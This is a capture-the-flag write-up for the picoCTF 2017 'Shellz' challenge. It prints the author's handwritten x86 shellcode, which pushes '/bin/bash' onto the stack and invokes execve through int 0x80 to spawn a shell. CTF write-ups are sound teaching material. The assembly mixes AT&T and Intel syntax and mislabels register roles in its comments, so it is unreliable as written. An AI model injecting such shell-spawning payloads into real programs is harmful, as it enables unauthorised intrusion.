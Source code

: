# Shellz - 55 Points
You no longer have an easy thing to call, but you have more space. Program: [shellz!](https://webshell2017.picoctf.com/static/4218d89147526c9f5adcf25ff3688482/shellz) [Source](https://webshell2017.picoctf.com/static/4218d89147526c9f5adcf25ff3688482/shellz.c). Connect on shell2017.picoctf.com:38782.
## Write-Up
Hmm.... Interesting how this one was worth *less* points than `Shells`. Probably because you could literally copy-paste shellcode from online and no one could blame you. I actually wrote my own (organic, homemade) shellcode. Here it is:
```assembly
#Prepares stack. Don't know why I even did that...
mov esp, ebp
sub 8, esp

#Pushes string '/bin/bash' to stack
push 0x68
push 0x7361622f
push 0x6e69622f

#Let's create the array for arguments here (only one is needed).
mov 0x0, dword [ ebp - 8 ]
mov esp, dword [ ebp - 4 ]

mov 0xb, eax # 0xb or 11 is syscall op code for execve.
mov esp, ebx # Pointer to our arguments array.
lea dword [ ebp - 8 ], ecx # This is the name of our program to call.
xor edx, edx #shortcut for setting environments pointer to NULL
int 0x80  # Interrupt to call kernel
```
Again, I used defuse to assemble my code and run.

## Helpful References
https://defuse.ca/online-x86-assembler.htm#disassembly2
